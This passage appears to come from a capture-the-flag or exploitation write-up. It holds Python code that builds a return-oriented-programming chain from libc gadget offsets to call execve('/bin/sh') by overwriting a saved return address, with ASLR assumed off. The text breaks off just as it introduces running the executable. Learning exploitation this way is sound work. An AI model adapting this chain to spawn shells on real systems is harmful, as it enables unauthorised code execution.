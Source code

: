 ```python
    with open("code.bin", "wb") as f:
        f.write(code)


def solve_no_aslr():
    # Check gdb for address of saved return address 0x55555822
    # This value will be different when run outside gdb
    # and also maybe if you reboot your computer / alter your environment.
    # You can work out the correct address by comparing printed addresses
    # in and outside gdb
    return_address_address = 0x7fffffffd6d8

    libc = 0x00007ffff7a0d000
    rax = 0x3b
    rdx = 0
    # Fill in the correct addresses of gadgets in your libc version
    rdi_call = 0x21102 + libc
    rax_call = 0x33544 + libc
    rdx_rsi_call = 0x1150c9 + libc
    syscall = 0x1751f8 + libc
    cmd = struct.unpack("<Q", b"/bin/sh\x00")[0]

    rop_chain_length = (
        4 +  # calls
        4 +  # register values
        3  # cmd, *cmd, 0
    )  # = 11

    rdi = return_address_address + 8 * 8  # point to cmd
    rsi = return_address_address + 8 * 9  # point to char * argv[] (point to rdi followed by 0)

    solution = [pop_print()] * (18 + rop_chain_length) + [
        push_uint64(x) for x in reversed([
            rax_call,
            rax,
            rdi_call,
            rdi,
            rdx_rsi_call,
            rdx,
            rsi,
            syscall,
            cmd,
            rdi,
            0,
        ])
    ]
    write(*solution)
```

Then running the executable:
